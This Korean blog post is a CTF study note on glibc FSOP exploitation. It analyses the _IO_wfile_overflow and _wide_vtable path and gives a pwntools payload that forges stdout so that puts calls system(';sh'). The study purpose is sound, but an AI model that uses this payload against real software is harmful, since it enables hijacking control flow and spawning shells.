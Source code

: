 이 세상에 FSOP 문제는 널리고 널렸지만 영어를 못하는 나는 질 좋은 FSOP 학습 자료를 볼 기회가 별로 없었다.

최근에 FSOP 문제가 너무나 눈에 띄었다. 2024 CCE Quals에서도 FSOP만 알고 있었다면 2시간 만에 풀 수 있었다. 특수한 상황에서만이 아니라, 일반적인(드림핵 4~6렙) 문제 접근에 성공하고 익스할 때, 항상 뭔가 막히면 FSOP 때문이었다.

FSOP까지만 제대로 알아도 든든한 웹이나 암호학 해커와 함께라면 2인으로도 청소년부 본선은 쉽게 갈 것 같다.

dreamhack-invitational-quals 채널에서 값진 문장 하나를 발견했다.

![](https://blogfiles.pstatic.net/MjAyNDEwMDhfMTEy/MDAxNzI4MzgyMTI0OTQx.c4dKOzCF48mwK2HPrs_Bn3XrTqRmaS9GWU4jeQCFl7Qg.im4cxWpwjrNbvScnCdsv17NQvkbVdoK9va1Rjv5upsMg.PNG/SE-96dbf2d6-529c-46e4-8fa2-0c672038f7d8.png?type=w1)


\_IO\_FILE 구조체와 \_IO\_wfile\_overflow에 대해 분석해보면 될 것 같다.

---

# \_IO\_wide\_data

glibc 버전이 높아지면서 vtable을 변조하면 IO_validate_vtable에 의해 걸리므로, \_wide\_vtable을 사용해야 한다.

\_IO\_FILE 구조체를 살펴보면

```C
struct _IO_FILE
{
  int _flags;		/* High-order word is _IO_MAGIC; rest is flags. */
  /* The following pointers correspond to the C++ streambuf protocol. */
  char *_IO_read_ptr;	/* Current read pointer */
  char *_IO_read_end;	/* End of get area. */
  char *_IO_read_base;	/* Start of putback+get area. */
  char *_IO_write_base;	/* Start of put area. */
  char *_IO_write_ptr;	/* Current put pointer. */
  char *_IO_write_end;	/* End of put area. */
  char *_IO_buf_base;	/* Start of reserve area. */
  char *_IO_buf_end;	/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */
  struct _IO_marker *_markers;
  struct _IO_FILE *_chain;
  int _fileno;
  int _flags2;
  __off_t _old_offset; /* This used to be _offset but it's too small.  */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];
  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
  __off64_t _offset;
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
};
struct _IO_wide_data *_wide_data;
```

여기에 \_IO\_wide\_data 가 있음을 알 수 있다.

```C
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
  wchar_t *_IO_buf_end;		/* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  wchar_t *_IO_save_base;	/* Pointer to start of non-current get area. */
  wchar_t *_IO_backup_base;	/* Pointer to first valid character of
				   backup area */
  wchar_t *_IO_save_end;	/* Pointer to end of non-current get area. */

  __mbstate_t _IO_state;
  __mbstate_t _IO_last_state;
  struct _IO_codecvt _codecvt;

  wchar_t _shortbuf[1];

  const struct _IO_jump_t *_wide_vtable;
};
```

여기서 \_wide\_vtable을 확인할 수 있다. 즉, fp->\_wide\_data->\_wide\_vtable을 변조할 수 있다면 항상 익스 가능하다.

---

# \_IO\_wfile\_overflow

이제 함수를 분석해보자.

```C
wint_t
_IO_wfile_overflow (f, wch)
     _IO_FILE *f;
     wint_t wch;
{
  if (f->_flags & _IO_NO_WRITES) /* SET ERROR */
    {
      f->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  /* If currently reading or no buffer allocated. */
  if ((f->_flags & _IO_CURRENTLY_PUTTING) == 0)
    {
      /* Allocate a buffer if needed. */
      if (f->_wide_data->_IO_write_base == 0)
	{
	  _IO_wdoallocbuf (f);
	  _IO_wsetg (f, f->_wide_data->_IO_buf_base,
		     f->_wide_data->_IO_buf_base, f->_wide_data->_IO_buf_base);

	  if (f->_IO_write_base == NULL)
	    {
	      _IO_doallocbuf (f);
	      _IO_setg (f, f->_IO_buf_base, f->_IO_buf_base, f->_IO_buf_base);
	    }
	}
      else
	{
	  ...
}
libc_hidden_def (_IO_wfile_overflow)
```

\_IO\_wdoallocbuf(f)를 실행시키고자 한다.

if (f->\_flags & \_IO\_NO\_WRITES) 를 만족하지 않아야 한다.

if ((f->\_flags & \_IO\_CURRENTLY\_PUTTING) == 0) 를 만족해야 한다.

if (f->\_wide\_data->\_IO\_write\_base == 0) 를 만족해야 한다.

모두 만족했다면, 해당 함수로 들어간다.

```C
void
_IO_wdoallocbuf (FILE *fp)
{
  if (fp->_wide_data->_IO_buf_base)
    return;
  if (!(fp->_flags & _IO_UNBUFFERED))
    if ((wint_t)_IO_WDOALLOCATE (fp) != WEOF)
      return;
  _IO_wsetb (fp, fp->_wide_data->_shortbuf,
		     fp->_wide_data->_shortbuf + 1, 0);
}
libc_hidden_def (_IO_wdoallocbuf)
```

\_IO\_WDOALLOCATE (fp)를 실행시키고자 한다.

if (fp->\_wid\e_data->\_IO\_buf\_base) 를 만족하지 않아야 한다.

if (!(fp->\_flags & \_IO\_UNBUFFERED)) 을 만족해야 한다. ( (fp->\_flags & \_IO\_UNBUFFERED) == 0 )

이 때 \_IO\_WDOALLOCATE은 \_IO\_wide\_data의 vtable을 참조하는 매크로이다. 따라서 FSOP가 성립한다.

문제에서 접근할 때, puts, write, scanf는 내부적으로 vtable의 함수를 호출하는데 이들을 잘 조작해서 \_IO\_wfile\_overflow가 호출되도록 하면 된다. \_IO\_wfile\_overflow는 \_IO\_validate\_vtable에 걸리지 않는 유효한 범위에 있으므로 가능하다.

한 줄로 정리하자면 fp -> \_wide\_data(변조) -> \_wide\_vtable(변조) -> one_gadget or system with fp = ';sh'

---

puts를 기준으로 정리해보자.

```python
def FSOP_struct(flags=0, _IO_read_ptr=0, _IO_read_end=0, _IO_read_base=0,
                _IO_write_base=0, _IO_write_ptr=0, _IO_write_end=0, _IO_buf_base=0, _IO_buf_end=0,
                _IO_save_base=0, _IO_backup_base=0, _IO_save_end=0, _markers=0, _chain=0, _fileno=0,
                _flags2=0, _old_offset=0, _cur_column=0, _vtable_offset=0, _shortbuf=0, lock=0,
                _offset=0, _codecvt=0, _wide_data=0, _freeres_list=0, _freeres_buf=0,
                __pad5=0, _mode=0, _unused2=b"", vtable=0, more_append=b""):
    
    FSOP = p64(flags) + p64(_IO_read_ptr) + p64(_IO_read_end) + p64(_IO_read_base)
    FSOP += p64(_IO_write_base) + p64(_IO_write_ptr) + p64(_IO_write_end)
    FSOP += p64(_IO_buf_base) + p64(_IO_buf_end) + p64(_IO_save_base) + p64(_IO_backup_base) + p64(_IO_save_end)
    FSOP += p64(_markers) + p64(_chain) + p32(_fileno) + p32(_flags2)
    FSOP += p64(_old_offset) + p16(_cur_column) + p8(_vtable_offset) + p8(_shortbuf) + p32(0x0)
    FSOP += p64(lock) + p64(_offset) + p64(_codecvt) + p64(_wide_data) + p64(_freeres_list) + p64(_freeres_buf)
    FSOP += p64(__pad5) + p32(_mode)
    if _unused2 == b"":
        FSOP += b"\x00" * 0x14
    else:
        FSOP += _unused2[0x0:0x14].ljust(0x14, b"\x00")
    
    FSOP += p64(vtable)
    FSOP += more_append
    return FSOP

fake_fsop_struct = l.sym['_IO_2_1_stdout_']
FSOP = FSOP_struct(
    flags=u64(b"\x01\x01\x01\x01;sh\x00"),
    lock=stdout_lock,
    _wide_data=fake_fsop_struct - 0x10,
    _markers=l.symbols["system"],
    _unused2=p32(0x0) + p64(0x0) + p64(fake_fsop_struct - 0x8),
    vtable=l.symbols["_IO_wfile_jumps"] - 0x20,
    _mode=0xFFFFFFFF,
)
```

puts는 내부적으로 \*vtable + 0x38에 있는 \_IO\_new\_file\_xsputn를 호출한다. 우리는 \*\_IO\_wfile\_jumps + 0x18에 있는 \_IO\_wfile\_overflow을 호출할 것이므로, vtable을 \*\_IO\_wfile\_jumps - 0x20으로 하면 offset을 맞출 수 있다.

\*\_wide\_data의 offset은 자유롭게 설정할 수 있지만, -0x10이 가장 무난해보인다. 이렇게 설정하면, \_wide\_vtable은 \_unused2의 마지막 부분에 있게 되므로, 이를 \*\_IO\_2\_1\_stdout\_ - 0x8로 바꾼다. 여기서의 offset 또한 자유이지만 가장 직관적인 것을 선택했다.

\_IO\_WDOALLOCATE는 \*wide\_vtable + 0x68을 참조하는 매크로이다. 따라서 위와 같이 FSOP를 진행했다면 \*\_IO\_2\_1\_stdout\_ + 0x60(- 0x8 + 0x68)인 \_markers 부분을 참조하는 것이다. 여기에 system함수나, one\_gadget을 넣어 쉘을 딸 수 있다.